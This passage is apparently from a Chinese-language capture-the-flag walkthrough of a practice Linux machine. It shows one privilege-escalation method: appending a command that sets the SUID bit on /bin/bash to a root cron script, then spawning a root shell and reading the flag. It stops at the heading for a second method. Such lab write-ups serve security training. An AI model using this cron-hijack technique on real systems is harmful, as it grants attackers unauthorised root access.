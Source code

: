 ## 提权方式 1：

```bash
SHayslett@red:~$ cd /etc/cron.d
SHayslett@red:/etc/cron.d$ ls
logrotate  mdadm  php
SHayslett@red:/etc/cron.d$ ls -al
total 32
drwxr-xr-x   2 root root  4096 Jun  3  2016 .
drwxr-xr-x 100 root root 12288 Apr 14 12:18 ..
-rw-r--r--   1 root root    56 Jun  3  2016 logrotate
-rw-r--r--   1 root root   589 Jul 16  2014 mdadm
-rw-r--r--   1 root root   670 Mar  1  2016 php
-rw-r--r--   1 root root   102 Jun  3  2016 .placeholder
SHayslett@red:/etc/cron.d$ cat logrotate
*/5 *   * * *   root  /usr/local/sbin/cron-logrotate.sh
```

所以第一种提权到 root 的方式就是将提权代码写入到这个文件中，等待 5 分钟触发：

```
echo 'chmod +xs /bin/bash' >> /usr/local/sbin/cron-logrotate.sh
```

service 触发后，得到了 root 下的 flag：

```
SHayslett@red:/etc/cron.d$ ls -al /bin/bash
-rwsr-sr-x 1 root root 1109520 Sep  1  2015 /bin/bash
SHayslett@red:/etc/cron.d$ /bin/bash -p
bash-4.3# id
uid=1005(SHayslett) gid=1005(SHayslett) euid=0(root) egid=0(root) groups=0(root),1005(SHayslett)
bash-4.3# cd /root
bash-4.3# ls
fix-wordpress.sh  flag.txt  issue  python.sh  wordpress.sql
bash-4.3# cat flag.txt
~~~~~~~~~~<(Congratulations)>~~~~~~~~~~
                          .-'''''-.
                          |'-----'|
                          |-.....-|
                          |       |
                          |       |
         _,._             |       |
    __.o`   o`"-.         |       |
 .-O o `"-.o   O )_,._    |       |
( o   O  o )--.-"`O   o"-.`'-----'`
 '--------'  (   o  O    o)
              `----------`
b6b545dc11b7a270f4bad23432190c75162c4a2b

```

## 提权方式 2：
